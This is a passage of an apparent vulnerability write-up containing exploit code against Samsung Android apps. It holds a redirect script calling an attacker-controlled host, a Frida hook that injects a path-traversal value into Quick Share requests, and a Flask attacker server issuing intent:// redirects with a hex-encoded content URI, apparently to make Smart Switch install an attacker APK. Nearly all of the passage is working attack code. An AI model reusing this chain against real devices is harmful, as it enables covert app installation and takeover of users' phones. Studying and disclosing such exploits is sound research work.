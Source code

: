 ```
        location.href="http://" + yayattackeryay + "/yayfinalyay";

        // redirect after another 15 seconds
        const yaytimeout2yay = setTimeout(yaylaunchyay, 15000);
}

// launch drozer
function yaylaunchyay() {
        location.href="http://" + yayattackeryay + "/yaylaunchyay";
}

</script>
```

The contents of the Frida script `yayscriptyay.js` is below:

```
console.log("script loaded");
Java.perform(function() {

    var yayclass1yay = Java.use('e2.t');

    yayclass1yay.n.overload('org.json.JSONObject', 'e2.h', 'boolean').implementation = function(a,b,c) {

        if (a.has("IsPrivateShare")) {
            a.put("IsPrivateShare", true)
        }
        if (a.has("Path")) {
            a.put("Path","/../../../../../../GPUWatch_Dump/html/")
        }
        var ret_val = this.n(a,b,c);
        console.log("send json: " + a + "\n" + "send bytes: " + ret_val + "\n")
        return ret_val;
    }
});
```

The attacker controlled web server, which can be on any IP address or host name, must launch the web server by running the Python script `yay.py`. The contents of `yay.py` is below:

```
from flask import Flask, redirect, url_for, send_from_directory

app = Flask(__name__)

# Route for serving index.html
@app.route('/')
def index():
    return send_from_directory('', 'index.html')

# redirect to open com.sec.android.easyMover.Agent
@app.route('/yayfinalyay')
def yayfinalyay():
    return redirect("intent://#Intent;component=com.sec.android.easyMover.Agent/.ui.SsmUpdateCheckActivity;action=com.sec.android.easyMover.Agent.WATCH_INSTALL_SMART_SWITCH;S.MODE=DIALOG;S.ssm_action=yayactionyay;S.ssm_uri=%63%6f%6e%74%65%6e%74%3a%2f%2f%63%6f%6d%2e%73%61%6d%73%75%6e%67%2e%67%70%75%77%61%74%63%68%61%70%70%2e%48%74%6d%6c%44%75%6d%70%50%72%6f%76%69%64%65%72%2f%79%61%79%2e%61%70%6b;end;", code=302)

# launch sharelive to stare aware service
@app.route('/yaylaunchshareliveyay')
def yaylaunchshareliveyay():
    return redirect("intent://#Intent;component=com.samsung.android.app.sharelive/.presentation.main.MainActivity;end;", code=302)
```